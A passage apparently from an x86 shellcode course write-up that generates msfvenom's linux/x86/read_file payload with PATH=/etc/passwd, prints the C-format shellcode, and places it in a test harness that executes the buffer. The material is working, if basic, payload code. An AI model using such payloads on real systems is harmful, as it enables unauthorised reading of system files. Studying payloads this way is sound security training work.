 ```shell

Evasion options for payload/linux/x86/read_file:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

The option `FD` is the file descriptor to write output to, so we don't change its value since we need `STDOUT` (value `1`) to read the contents of the file on the screen. We change the `PATH` option, which is the file path to read, to `/etc/passwd`, so the first 4096 bytes of that file will be written to the specified file descriptor.

So the following command utilizes the `read_file` payload and outputs the shellcode in `C` format.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/3_read_file$ msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 73 bytes
Final size of c file: 334 bytes
unsigned char buf[] = 
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3"
"\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00"
"\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00"
"\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80"
"\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73"
"\x77\x64\x00";
```

Now we can paste the extracted shellcode in the file `shellcode.c`. So, the whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char buf[] = 
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3"
"\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00"
"\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00"
"\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80"
"\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73"
"\x77\x64\x00";

main()
{

	printf("Shellcode Length:  %d\n", strlen(buf));

	int (*ret)() = (int(*)())buf;

	ret();
}
```
